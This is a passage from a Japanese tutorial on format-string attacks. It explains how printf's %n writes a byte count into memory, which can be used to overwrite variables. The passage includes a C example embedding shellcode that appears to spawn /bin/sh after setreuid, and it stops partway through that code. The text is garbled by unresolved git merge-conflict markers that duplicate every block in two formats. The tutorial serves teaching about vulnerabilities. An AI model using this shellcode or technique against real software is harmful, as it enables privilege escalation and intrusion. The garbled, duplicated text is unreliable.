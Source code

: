 　%nは指定されたアドレスに値を格納するので、printf()への第2引数にはアドレ
スを示す&を付与しなければなりません。これをコンパイルし実行すると次のよう
な結果が得られます。

<<<<<<< HEAD
-----
defolos@Glazheim:~/Desktop$ gcc -Wall test.c
defolos@Glazheim:~/Desktop$ ./a.out 
Hello World!
12
-----
=======
\-\-\-\-\-
defolos@Glazheim:\~/Desktop$ gcc \-Wall test.c
defolos@Glazheim:\~/Desktop$ ./a.out 
Hello World!
12
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　「Hello World!」は12文字ですので、testの中には12が格納されます。つまり、
%nはそれまでに出力したバイト数を書き込むのです。これをうまく利用すれば、
任意の値を書き込むことが可能となります。


<<<<<<< HEAD
■0x03.) 変数の書き換え
=======
### 0x03 変数の書き換え
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　では実際に、変数の中身を書き換えてみます。次のコードはゲームプログラム
の骨格です。ゲームをはじめるにあたって、コマンドライン引数でユーザ名を指
定します。最後にユーザ名とスコアを表示します。今回はゲームルーチンが存在
しないので、スコアは常に0になるはずです。

<<<<<<< HEAD
-----　game.c
#include <stdio.h>
=======
\-\-\-\-\-　game.c
\#include <stdio.h>
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

int main(int argc, char *argv[]){

    int score;
<<<<<<< HEAD
    char payload[]=
=======
    char payload[]\=
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
        "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0"
        "\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d"
        "\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73"
        "\x68";
